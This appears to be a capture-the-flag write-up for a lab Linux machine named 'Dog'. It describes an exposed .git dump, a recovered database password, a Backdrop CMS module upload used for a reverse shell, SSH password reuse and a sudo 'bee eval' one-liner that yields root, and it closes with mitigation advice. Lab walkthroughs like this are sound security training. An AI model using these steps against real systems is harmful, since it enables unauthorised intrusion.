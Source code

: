 # Dog

```
Difficulty: Easy
Operating System: Linux
Hints: True
```

## ✅ Summary

| Step | User / Access | Technique Used                | Result                                                                   |
| :--- | :------------ | :---------------------------- | :----------------------------------------------------------------------- |
| 1    | `N/A`         | Port Scanning                 | Found HTTP, SSH, and exposed `.git` repository.                          |
| 2    | `N/A`         | Git Dump                      | Extracted configuration and email of `tiffany`.                          |
| 3    | `tiffany`     | Database Credential Discovery | Discovered MySQL password in `settings.php`.                             |
| 4    | `tiffany`     | Admin Login                   | Logged into Backdrop CMS with credentials.                               |
| 5    | `www-data`    | Module Upload                 | Uploaded a custom module for reverse shell to obtain `www-data`.         |
| 6    | `johncusack`  | Credential Reuse              | Logged in via SSH using same database password.                          |
| 7    | `root`        | Sudo with Custom Tool         | Used vulnerable `bee` CLI tool to execute system commands and gain root. |

---

---

## 🔎 Initial Enumeration

### 1. **Nmap Scan**

```bash
nmap dog.htb -sV -A -Pn -T4
```

* Found open ports:

  * `22/tcp` — SSH (OpenSSH 8.2p1)
  * `80/tcp` — HTTP (Apache 2.4.41 with Backdrop CMS 1.20)
  * `.git` directory exposed!

---

## 🗂️ Git Repository Leak

### 2. **Git Dump**

```bash
git-dumper http://dog.htb/.git/ ./dog-git
```

* Found user email in config:

  * `tiffany@dog.htb`

### 3. **Database Credentials**

Extracted from `settings.php`:

```php
$database = 'mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop';
```

* MySQL password: `BackDropJ2024DS2024`

---

## 🧱 Initial Access

### 4. **Login as Tiffany**

* Found Backdrop CMS login page.
* Credentials:

  * Username: `tiffany`
  * Password: `BackDropJ2024DS2024`
* Logged into the admin dashboard.

---

## 🖼️ File Upload for Code Execution

### 5. **Module Upload**

* Found module installation feature.
* Downloaded official Backdrop CMS module.
* Modified module to include reverse shell payload:

  * Allowed formats: `.tar`, `.tgz`, `.gz`, `.bz2`
* Uploaded and enabled the malicious module.
* Triggered module functionality to execute reverse shell and obtain `www-data` access.

---

## 🔐 Privilege Escalation to johncusack

### 6. **Database Password Reuse**

* Entered MySQL:

  ```bash
  mysql -u root -p
  # Password: BackDropJ2024DS2024
  ```
* Found a password hash for `johncusack`.
* Tried default passwords → succeeded using `BackDropJ2024DS2024`.

```bash
ssh johncusack@dog.htb
# Password: BackDropJ2024DS2024
```

---

## 🐝 Privilege Escalation to root

### 7. **Custom Command-Line Tool 'bee'**

```bash
sudo -l
```

Revealed:

```
(ALL : ALL) /usr/local/bin/bee
```

* Inspected `bee` code: Contains an `eval()` function and is intended to run from CLI only.

### 8. **Gaining Root**

* Started `bee` from `/var/www/html` as required.
* Executed arbitrary PHP code to get root shell:

  ```bash
  sudo /usr/local/bin/bee eval 'system("/bin/bash");'
  ```
* Captured `root.txt` from `/root/root.txt`.

---



## 🔧 Mitigation Advice

* Prevent `.git` directory exposure by properly configuring the web server.
* Never reuse database credentials as login passwords.
* Harden file upload functionality; restrict upload types and validate contents.
* Audit custom tools and remove eval-like unsafe functionality.
* Apply principle of least privilege to limit sudo permissions.

